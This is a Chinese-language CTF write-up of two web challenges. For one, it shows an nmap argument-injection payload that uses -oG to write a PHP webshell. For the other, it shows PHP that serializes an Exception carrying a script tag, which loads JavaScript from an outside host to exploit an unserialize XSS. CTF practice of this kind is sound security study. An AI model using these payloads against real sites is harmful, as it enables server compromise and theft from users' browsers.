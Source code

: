## [网鼎杯 2020 朱雀组]Nmap

这题目似曾相识，我知道是nmap 的某个参数可以写入文件然后没想起来具体是啥，谷歌了下就看到wp了

果然如此，写个马进去直接开冲

原理么就是命令执行嘛

源码：

```php
$command = "nmap ". NMAP_ARGS . " -oX " . RESULTS_PATH . $filename . " " . $host;
$result_scan = shell_exec($command);
```

构造出的命令就是nmap -Pn -T4 -F --host-timeout 1000ms -oX 路径(随机生成的) 127.0.0.1 一句话没php的马 -oG hack.phtml

就行了

## [BJDCTF 2nd]xss之光

拿dirmap一扫，有git泄露，然后有源码里面

```php
<?php
$a = $_GET['yds_is_so_beautiful'];
echo unserialize($a);

```

这东西....反序列化？

我本来试图写一个类，然后突然想起这里有没有__construct给你执行，有个卵子用，然后断思路了，就看了下wp（我甚至还谷歌了反序列化RCE这种鬼东西）

```php
<?php
$a = new Exception("<script src=http://ip/xssrdd/myjs/copyright.js></script>");
$b = urlencode(serialize($a));
var_dump($b);
?>
```

源码会从cookie弹出

原理就是一个爆出一个ERROR，然后cookie就会被set

具体也没找到源码，感觉还是偏向脑洞